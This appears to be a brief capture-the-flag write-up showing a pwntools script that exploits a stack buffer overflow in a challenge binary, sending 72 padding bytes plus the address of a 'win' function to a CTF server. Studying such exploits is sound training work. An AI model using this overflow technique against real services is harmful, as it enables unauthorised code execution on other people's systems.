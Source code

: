 I instantly recognized this from a chall on cyberedu and had an exploit script almost working already.
So i verified if the binary has symbols with objdump and i applied the following code:


from pwn import *

p = remote("ctf.ac.upt.ro", 9232)

elf = ELF("./challenge")
win = elf.symbols["win"]

payload  = b"A" * 72     
payload += p64(win)      

p.sendlineafter(b"Spune ceva:", payload)

p.interactive()


